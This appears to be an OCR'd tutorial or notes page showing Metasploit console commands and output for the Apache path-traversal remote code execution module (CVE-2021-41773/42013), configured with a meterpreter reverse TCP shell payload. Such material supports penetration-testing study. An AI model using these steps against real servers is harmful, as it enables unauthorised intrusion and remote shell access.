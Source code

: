 Using first module 

```
msf6 auxiliary(scanner/ssh/ssh_login) > use 0
```

Show info 

```
msf6 exploit(multi/http/apache_normalize_path_rce) > info
```

Consider impact of mod before executing

```
Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
  Id  Name
  --  ----
  0   Automatic (Dropper)
  1   Unix Command (In-Memory)

Check supported:
  Yes
```

Disp options 

```
msf6 exploit(multi/http/apache_normalize_path_rce) > show options

Module options (exploit/multi/http/apache_normalize_path_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CVE        CVE-2021-42013   yes       The vulnerability to use (Accepted: CVE-2021-41773, CVE-2021-42013)
   DEPTH      5                yes       Depth for Path Traversal
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /cgi-bin         yes       Base path
   VHOST                       no        HTTP server virtual host

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```
